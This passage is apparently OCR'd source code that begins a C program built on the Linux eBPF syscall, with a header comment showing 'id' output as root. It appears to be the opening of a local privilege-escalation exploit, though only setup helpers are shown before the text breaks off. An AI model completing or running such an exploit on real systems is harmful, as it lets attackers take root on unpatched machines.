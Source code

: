 ```
  #id
  uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(internet)
  
*/

#include <errno.h>
#include <fcntl.h>
#include <stdarg.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <linux/bpf.h>
#include <linux/unistd.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <sys/un.h>
#include <sys/stat.h>
#include <sys/personality.h>

char buffer[64];
int sockets[2];
int mapfd, progfd;
int doredact = 0;

#define LOG_BUF_SIZE 65536
#define PHYS_OFFSET 0xffff880000000000
char bpf_log_buf[LOG_BUF_SIZE];

static __u64 ptr_to_u64(void *ptr)
{
	return (__u64) (unsigned long) ptr;
}

int bpf_prog_load(enum bpf_prog_type prog_type,
		  const struct bpf_insn *insns, int prog_len,
		  const char *license, int kern_version)
{
	union bpf_attr attr = {
		.prog_type = prog_type,
		.insns = ptr_to_u64((void *) insns),
		.insn_cnt = prog_len / sizeof(struct bpf_insn),
		.license = ptr_to_u64((void *) license),
		.log_buf = ptr_to_u64(bpf_log_buf),
		.log_size = LOG_BUF_SIZE,
		.log_level = 1,
	};

	attr.kern_version = kern_version;

	bpf_log_buf[0] = 0;

	return syscall(__NR_bpf, BPF_PROG_LOAD, &attr, sizeof(attr));
}

int bpf_create_map(enum bpf_map_type map_type, int key_size, int value_size,
		   int max_entries, int map_flags)
{
	union bpf_attr attr = {
		.map_type = map_type,
		.key_size = key_size,
```